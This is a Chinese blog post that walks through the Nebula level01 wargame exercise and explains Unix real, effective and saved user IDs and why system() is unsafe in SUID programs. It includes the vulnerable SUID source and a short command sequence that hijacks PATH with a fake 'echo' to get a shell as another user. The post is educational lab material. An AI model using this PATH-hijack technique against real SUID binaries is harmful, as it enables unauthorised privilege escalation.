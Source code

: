 title: 关于exploit exercise nebula level01
date: 2012-10-10
tags: [linux, security, programming]
categories: linux
---

今天做[exploit exercise](http://exploit-exercises.com/)的nebula [level01](http://exploit-exercises.com/nebula/level01)，长见识了，记录一下。

## 题目

题目提供了/home/flag01/下flag01的源码：

    #include <stdlib.h>
    #include <unistd.h>
    #include <string.h>
    #include <sys/types.h>
    #include <stdio.h>

    int main(int argc, char **argv, char **envp)
    {
        gid_t gid;
        uid_t uid;
        gid = getegid();
        uid = geteuid();

        setresgid(gid, gid, gid);
        setresuid(uid, uid, uid);

        system("/usr/bin/env echo and now what?");
    }

flag01的权限：

-rwsr-x--- 1 flag01 level01 7322 2011-11-20 21:22 flag01

flag01的uid是用户flag01,gid是level01,suid位被使能了

<!-- more -->

**解决方法**网上都有：

    $ export PATH=/tmp:$PATH    # 把/tmp加到环境变量PATH的最前头
    $ cat "/bin/bash" >> /tmp/echo # 在/tmp创建一个echo文件，里面是执行bash
    $ chmod +x /tmp/echo # 把/tmp/echo设为执行文件
    $ /home/flag01/flag01 # 执行/home/flag01下的flag01
    
    # 顺利以用户flag01起bash
    $ getflag # 通关


## 原理

主要原理网上的解法都说得很明白，就是通过env使得执行的echo是我们创建的假echo，成功以用户flag01的权限起bash

我想记录的主要是前面关于uid,gid的操作。

**为什么system之前会有getegid,setresgid这些操作呢？没有会怎样？这还会成功吗？**

答案是不行的！在[stackoverflow](http://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code)找到解答:

> Note that the setting of real user ID, effective user ID and saved set-user-ID by a call to setresuid() before the call to system() in the vulnerable code posted in the question allows one to exploit the vulnerability even when only effective user ID is set to a privileged user ID and real user ID remains unprivileged (as is for example the case when relying on set-user-ID bit on a file as above). Without the call to setresuid() the shell run by system() would reset the effective user ID back to the real user ID making the exploit ineffective. However, in the case when the vulnerable code is run with real user ID of a privileged user, system() call alone is enough.
> 
> man page of sh:
> 
> If the shell is started with the effective user (group) id not equal to the real user (group) id, and the -p option is not supplied, no startup files are read, shell functions are not inherited from the environment, the SHELLOPTS variable, if it appears in the environment, is ignored, and the effective user id is set to the real user id. If the -p option is supplied at invocation, the startup behavior is the same, but the effective user id is not reset.

## real user ID, effective user ID，saved set-user-ID, set-user-ID bit

首先明确什么是real user ID, effective user ID，saved set-user-ID, set-user-ID bit

- real user ID 就是起进程的用户ID。
- effective user ID是进程的有效用户ID，决定这个进程对文件系统操作的权限。如果它是root，那这个进程的操作就是以root的权限了。
- set-user-id bit是程序的一个特征位，默认不使能，可以通过chmod +s 设置。当set-user-id被使能时，此程序叫SUID程序，程序启动时进程的effective user ID就是这个程序的uid；当set-user-id没被使能，则effective user ID是执行者real user ID。
- saved set-user-ID保存着进程启动时effective user ID的值。

因为进程内可以通过setuid等来设置effective user ID，也就改变了进程对文件系统操作的权限。但这不是可以随便设为任意的id的。

- 如果进程有管理员权限，则setuid可以把effective user ID设为任意id.
- 如果进程没有管理员权限，则setuid只能把effective user ID设为real user ID或者saved set-user-id。

这就知道saved set-user-ID有什么用了。它就是当程序是SUID程序时，effective user ID可以被设为real user ID和程序启动时的effective user ID，saved set-user-ID就是用来保存这个程序启动时effective user ID的值的，使得setuid可以把effective user ID可以从real user ID设回来。

## bash 

然后就是起bash时，如果effective user ID跟real user ID不同，且real user ID不是管理员权限用户，则会把effective user ID设回real user ID。

而我们这样如果没有setresgid,setresuid的话，real user ID是level01, effective user ID是flag01, 起bash时，effective user ID会被设回real user ID，那还只是以level01起bash，而不是flag01起bash了。


## system()的安全问题

在这里也可以看到system()是有安全问题的，因为system()里面是fork完就直接调用execl，使得继承了父进程的effective user ID的子进程执行新的程序。

APUE也说了:

> If it is running with special permissions--eithere set-user-ID or set-group-ID--and wants to spawn another process, a process should use fork() and exec() directly, being certain to change back to normal permissions after the fork(), before calling exec(). The system() function should never be used from a set-user-ID or a set-groupd-ID program.

意思在SUID程序中，不应该用system()，而是自己写fork()和exec()来实现，并在fork和exec中间，自己处理好id权限问题。

## 结语

之前看APUE，用户id这里看得一头雾水，通过这个exercise，总算有点感觉了。
